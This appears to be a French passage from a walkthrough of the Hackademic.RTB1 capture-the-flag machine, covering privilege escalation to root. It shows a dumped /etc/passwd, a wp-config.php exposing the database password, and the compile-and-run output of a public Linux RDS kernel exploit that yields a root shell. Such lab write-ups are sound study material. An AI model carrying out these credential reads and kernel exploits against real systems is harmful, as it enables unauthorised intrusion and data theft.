 Voici un extrait du /etc/passwd :  

```plain
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
(...)
sshd:x:74:484:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
pulse:x:493:483:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin
gdm:x:42:481::/var/lib/gdm:/sbin/nologin
p0wnbox.Team:x:500:500:p0wnbox.Team:/home/p0wnbox.Team:/bin/bash
mysql:x:27:480:MySQL Server:/var/lib/mysql:/bin/bash
```

The way to root
---------------

J'ai fouillé à la recherche d'une tâche mal définie dans *crontab*, les services et processus en cours ainsi que les programmes setuid, dossiers et fichiers world-writable, fichiers appartenant à *p0wnbox.Team* mais toujours sans résultats :(  

Il y a un serveur SMTP qui écoute derrière le firewall :  

220 localhost.localdomain ESMTP Sendmail 8.14.3/8.14.3; Sun, 30 Mar 2014 14:03:54 +0300  

On obtient aisément le mot de passe de la BDD :  

```plain
sh-4.0$ cat wp-config.php
<?php
// ** MySQL settings ** //
define('DB_NAME', 'wordpress');     // The name of the database
define('DB_USER', 'root');     // Your MySQL username
define('DB_PASSWORD', 'lz5yedns'); // ...and password
define('DB_HOST', 'localhost');     // 99% chance you won't need to change this value
```

MySQL tourne sous l'utilisateur mysql, l'utilisation d'un *INTO OUTFILE* ne semble pas prometteuse...  

Finalement je me suis rabattu sur un exploit pour le noyau ([Linux RDS Protocol Local Privilege Escalation](http://www.exploit-db.com/exploits/15285/) par *Dan Rosenberg*) :  

```plain
bash-4.0$ gcc -o rds rds.c 
bash-4.0$ ./rds
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
sh-4.0# id
uid=0(root) gid=0(root)
sh-4.0# cd /root
sh-4.0# cat key.txt
Yeah!!
You must be proud because you 've got the password to complete the First *Realistic* Hackademic Challenge (Hackademic.RTB1) :)

```